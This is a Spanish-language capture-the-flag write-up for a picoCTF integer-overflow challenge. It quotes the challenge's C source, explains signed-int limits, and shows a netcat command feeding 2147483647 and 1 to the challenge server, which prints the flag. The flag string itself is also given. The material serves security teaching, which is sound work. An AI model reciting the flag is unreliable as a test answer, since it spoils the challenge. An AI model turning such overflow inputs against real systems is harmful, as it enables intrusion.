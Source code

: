 ## Descripcion

Can you solve this?What two positive numbers can make this possible: `n1 > n1 + n2 OR n2 > n1 + n2` Enter them here `nc saturn.picoctf.net 57591`. [Source](https://artifacts.picoctf.net/c/456/flag.c)

## Pistas

-  Integer overflow
- Not necessarily a math problem

## Solucion
```  c
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

        if (num1 > 0 || num2 > 0) {
            flag = fopen("flag.txt","r");
            if(flag == NULL){
                printf("flag not found: please run this on the server\n");
                fflush(stdout);
                exit(0);
            }
            char buf[60];
            fgets(buf, 59, flag);
            printf("YOUR FLAG IS: %s\n", buf);
            fflush(stdout);
            exit(0);
        }
    }
    return 0;
}

```

- El programa solicita dos números enteros y los suma, si la suma es menor que cualquiera de los valores de entrada, se elimina la bandera. Este es un simple desbordamiento de enteros.
- Los valores de entrada y la suma se manejan como enteros con signo.
- El valor entero máximo con signo es 2.147.483.647.
``` bash
┌──(kali㉿kali)-[~/…/notas-hacking/Utils/Tercer-Parcial/BinaryExploitation]
└─$  echo -e "2147483647\n1" | nc saturn.picoctf.net 57591
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}

```

## Bandera
picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}

## Notas adicionales


## Referencias
